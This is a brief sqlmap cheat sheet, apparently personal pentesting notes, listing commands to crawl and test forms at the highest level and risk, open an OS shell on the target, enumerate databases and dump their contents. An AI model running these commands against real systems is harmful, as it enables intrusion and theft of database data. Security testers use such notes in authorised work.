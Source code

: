 # Crawl the web page and test all forms (Requires a lot of user interaction)
``` sqlmap -u $url --crawl --forms --level 5 --risk 3 ```

# Enter sqlmap interactive shell

```sqlmap --shell```

# Test for write privileges and get a shell

``` sqlmap -u $url --os-shell```

# Enumerate databases

```sqlmap -u $url --dbs```

# Dump databases

```sqlmap -u $url --dump```

## Most often I use something like:

```sqlmap -u $url --dump --crawl --forms --level 5 --risk 3```
